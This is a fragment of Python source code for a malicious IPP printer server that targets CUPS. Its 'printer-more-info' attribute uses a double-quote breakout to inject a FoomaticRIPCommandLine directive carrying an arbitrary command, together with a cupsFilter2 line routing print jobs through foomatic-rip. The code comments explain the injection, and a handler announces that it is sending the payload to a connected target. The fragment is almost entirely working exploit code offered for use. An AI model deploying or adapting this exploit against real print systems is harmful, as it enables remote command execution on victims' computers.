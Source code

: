```python
			(SectionEnum.printer, b'printer-name', TagEnum.name_without_language):[b'Main Printer'],
			(SectionEnum.printer, b'printer-info', TagEnum.text_without_language):[b'Main Printer Info'],
			(SectionEnum.printer, b'printer-make-and-model', TagEnum.text_without_language):[b'HP 0.00'],
			(SectionEnum.printer, b'printer-state', TagEnum.enum):[Enum(3).bytes()], #3 in idle
			(SectionEnum.printer, b'printer-state-reasons', TagEnum.keyword):[b'none'],
			(SectionEnum.printer, b'ipp-versions-supported', TagEnum.keyword):[b'1.1'],
			(SectionEnum.printer, b'operations-supported', TagEnum.enum):[
			Enum(x).bytes()
			for x in (
				OperationEnum.print_job,
				OperationEnum.validate_job,
				OperationEnum.cancel_job,
				OperationEnum.get_job_attributes,
				OperationEnum.get_printer_attributes,
			)],
			(SectionEnum.printer, b'multiple-document-jobs-supported', TagEnum.boolean):[Boolean(False).bytes()],
			(SectionEnum.printer, b'charset-configured', TagEnum.charset):[b'utf-8'],
			(SectionEnum.printer, b'charset-supported', TagEnum.charset):[b'utf-8'],
			(SectionEnum.printer, b'natural-language-configured', TagEnum.natural_language):[b'en'],
			(SectionEnum.printer, b'generated-natural-language-supported', TagEnum.natural_language):[b'en'],
			(SectionEnum.printer, b'document-format-default', TagEnum.mime_media_type):[b'application/pdf'],
			(SectionEnum.printer, b'document-format-supported', TagEnum.mime_media_type):[b'application/pdf'],
			(SectionEnum.printer, b'printer-is-accepting-jobs', TagEnum.boolean):[Boolean(True).bytes()],
			(SectionEnum.printer, b'queued-job-count', TagEnum.integer):[Integer(777).bytes()],
			(SectionEnum.printer, b'pdl-override-supported', TagEnum.keyword):[b'not-attempted'],
			(SectionEnum.printer, b'printer-up-time', TagEnum.integer):[Integer(self.printer_uptime()).bytes()],
			(SectionEnum.printer, b'compression-supported', TagEnum.keyword):[b'none'],
			(SectionEnum.printer, b'printer-more-info', TagEnum.integer):[
				#Double quote at the begining to close the parameter with no info
				#Write your own parameters
				f'"\n*FoomaticRIPCommandLine: "{self.command}"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'.encode()
				#No double quotes at the end
				
			],
		}
		#It adds basic attributes from the parent class
		attr.update(super().minimal_attributes())
		return attr
		
		#Function that sends the attributes of the malicious printer to CUPS
		#Req onject from IppRequest 
		#_psfile PostScript file
	def operation_printer_list_response(self, req, _psfile):
		print("\ntarget connected, sending payload ....")
		attributes = self.printer_list_attributes()
		return IppRequest(
			self.version,
			StatusCodeEnum.ok,
			#Keeping coherence between requests and responses
			req.request_id,
			attributes)
				
```